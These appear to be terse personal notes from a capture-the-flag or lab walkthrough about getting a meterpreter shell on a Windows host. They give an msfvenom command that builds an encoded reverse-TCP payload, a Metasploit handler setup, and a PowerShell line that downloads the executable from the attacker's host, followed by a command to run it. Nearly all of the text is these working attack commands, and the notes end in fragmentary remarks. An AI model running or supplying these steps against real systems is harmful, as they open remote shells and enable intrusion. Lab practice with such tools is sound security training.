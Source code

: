1) 
- msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.13.209 LPORT=1234 -f exe -o shell.exe
- use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
- go back into the shell
- (New-Object System.Net.WebClient).Downloadfile('http://10.11.13.209:80/shell.exe','shell.exe')
- Start-Process shell.exe
- go back to the meterperpreter shell
- ls
- the size says on the left